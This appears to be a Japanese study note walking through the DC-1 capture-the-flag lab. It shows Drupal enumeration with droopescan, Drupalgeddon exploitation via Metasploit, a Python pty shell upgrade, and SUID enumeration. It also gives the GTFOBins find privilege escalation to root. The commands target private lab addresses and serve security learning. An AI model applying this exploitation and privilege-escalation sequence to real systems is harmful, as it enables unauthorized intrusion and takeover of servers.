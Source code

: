 ## DC-one 410~

## 目的
- flag1 <- システム内
- flag4 <- システム内
- theFinalFlag <- root

### ポートスキャンまでいつもと同じ
  - 20, 80, 111

### Webサイトをチェックする
  - robots.txtを見る。これはクローラーがサイトをクローリングしてもいいかを判断できるサイト。Disallowと書いているのは、クローラの巡回を拒否している
  - サイトの作成ソフトとおおよそのバージョンがわかる
  - drupalは有名なwebサイトの構築ソフト

### droopscanインストール cf417
- インターネットに繋げて
- `pip install --break-system-packages --user droopescan`
  - `--break-system-packages` 最近のpipは面倒なので、これを使うと昔みたいに簡単にインストールできる
  - `--user` 本来はpipはルート権限だがルートでなく、個人としてコマンドを取得するのでパスワードがいらない 
- pip listにはあるが、個人ユーザでインストールしているのでパスが通っていないので実行できない問題が起こる
- 次のどちらかでパスを探す。もちろん上の方が効率がいい
  - `find ~ -name droopescan` 
  - `sudo find / -name droopescan`

### droopescan
- droopescanはPythonベースのセキュリティスキャナでDrupal,wordpress,Joomlaで使える。より細かいバージョンがわかって、そこからwebサイトを構築している脆弱性を発見できることがある
- `/home/user/.local/bin/droopescan scan drupal -u $URL`
- 結構時間かかる
- versin 7.22~7.26ということがわかる
- drupalはPluginを選択して、インストールできる。それが表示されている



### Metasploitをネットで調べる
- drupalに脆弱性があるかもしれない
- 調べるだけなのでインターネットにつながっているなら何でもいい 
- `Exploit Database`を検索して、`drupal 7 remote`でsearchする(CVE-2014-3704)
- drupalgeddonを使うのでメモっておく

### metasploitを実行する
  - ParrotOSのシェルで
  - `msfconsole`
  - 起動画面に使えるモジュールや分類が表示されている
  - どこにdrupalgeddonあるか調べる `search type:exploit drupal` Pathを覚えておく
    - `rank`というのはツールの有能性 
  - `use exploit/multi/http/drupal_drupageddon`
    - パスの入力にはTabが使える 
  - `info`
    - モジュールの使い方がわかる 
  - `set RHOSTS 192.168.56.103` ターゲット側端末
    - 大文字のところは小文字でもいい 
  - `set LHOST 192.168.56.102` 攻撃側端末
  - `show options`
  - `run`
  - シェルを取得できるが、これはダムシェルと言って機能がとても悪いシェルである。次のコマンドをやってみる これはOSを調べるコマンドである `uname -a`、使えないので、いつも使っているようなシェルにする


### Pythonのptyで対話シェルに切り替え
  - `shell`
  - Pythonを呼び出してシェルを呼び出す
  - `python -c 'import pty; pty.spawn("/bin/bash")'`
  - 対話シェルに切り替わる

### システムの探索
- OSの特定をすることで脆弱性を見つけられる可能性がある
  - `uname -a` 
- 過去のコマンドの履歴で何かわかるかもしれない
  - `cat .bash_history`
- 個人ユーザがroot権限でできることを調べる
  - `sudo -l`をやってみる
- SUIDファイルを検索
  - `find / -perm -u=s -type f 2> /dev/null`
  - find以外に多くのコマンドが出てくるが、sudoコマンドは使えないのでsudoコマンドを使わないGTFOBinsを探す。結局、色々あるがfindしか使えない

### 一時ファイルの置き場所を調べる
- `/tmp`は再起動後に消えるが、`/var/tmp`は再起動後でも消えない

### findコマンドでrootシェルの取得
  - GTFOBinsのWebサイトから     `find`を検索
  - `/usr/bin/find . -exec /bin/bash -p \; -quit`
    - `-p`は出力がPosix表示になる 
  - root権限の取得
### Flagを探して表示
  - `cat /root/thefinalflag.txt`  

## Search Sploitでexploitを探す
- `searchsploit drupal 7 remote`
- `.py`,`.rb`がコマンドで、`.txt`は説明
- シェルの取得を目的でdrupalのバージョンから、このモジュールを探す -> php/webapps/35150.php
- `searchsploit -m パスの番号`
  - `searchsploit -m 35150`
  - ファイルがダウンロードされるので実行する
